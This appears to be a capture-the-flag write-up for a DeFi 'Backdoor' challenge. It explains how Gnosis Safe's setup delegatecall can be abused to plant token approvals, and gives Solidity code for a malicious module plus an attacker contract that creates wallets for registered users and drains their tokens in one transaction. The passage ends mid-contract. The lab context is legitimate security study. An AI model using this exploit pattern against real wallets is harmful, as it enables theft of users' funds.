 We can implement a backdoor into a wallet by abusing the setupModules() functionality to execute arbitrary code on behalve of the wallet. In our case it already is sufficient to just set a approval for 10 tokens to the attacker, but we could also implement way more fucntioanlities if we want. This occurs due the case that the wallet does a delegatecall to a address which we can choose. During this delegatecall we can manipulate storage and do external calls with the wallet as msg.sender.

### Implementing the backdoor

As we don't really need to add a full backdoor but just do one call on behalf of the wallet it was pretty easy. I implemented a simple contract, to which the delegatecall will go and it will approve the attacking contract for uint256max tokens on behalve of the safe. This way the attacker contract can transfer out the tokens easily after thesafe has received them "legitimately".

```solidity
contract MaliciousModule {
    function setApprovals(address token, address drainerContract) public
    {
        IERC20(token).approve(drainerContract, type(uint256).max);
    }
}
```

### The final attack

To be able to get the tokens of one user we need to do a few steps:
1. Deploy the malicious module
2. Deploy a proxy on the users behalf and add the data for the setup in the initializer value and the WalletRegistry as the callback
3. Inside the data for the setup we need to set the address of the malicious module as to and the calldata for its setApprovals() function as data
4. Now the safe gets deployed and the malicious module gets run and the approval is set
5. Afterwards the ProxyFactory automatically calls to the registry and as all parameters fit the safe gets the 10 tokens
6. The attacker contract transfers the tokens from the safe to the player

### Doing it all at Once

Our last requirements is that all of the users need to be drained in one transaction. So I decided on doing all of this in a contracts constructor. You can see my implementation below:

```solidity
contract BackdoorAttacker {

    constructor (address token, address proxyFactory, address[] memory users, address _walletRegistry, address _masterContract)
    {
        MaliciousModule maliciousModule = new MaliciousModule();
        GnosisSafeProxyFactory factory = GnosisSafeProxyFactory(proxyFactory);
        
        for (uint256 i = 0; i < users.length; i++) {
            address[] memory user = new address[](1);
            user[0] = users[i];

            bytes memory initializer = abi.encodeWithSelector(GnosisSafe.setup.selector, user, 1, address(maliciousModule), abi.encodeWithSignature("setApprovals(address,address)", token, address(this)), address(0), address(0), 0, payable(address(0)));

            GnosisSafeProxy proxy = factory.createProxyWithCallback(
                _masterContract,
                initializer, 
                0,
                IProxyCreationCallback(_walletRegistry)
            );

            IERC20(token).transferFrom(address(proxy), msg.sender, 10 ether);
        }
```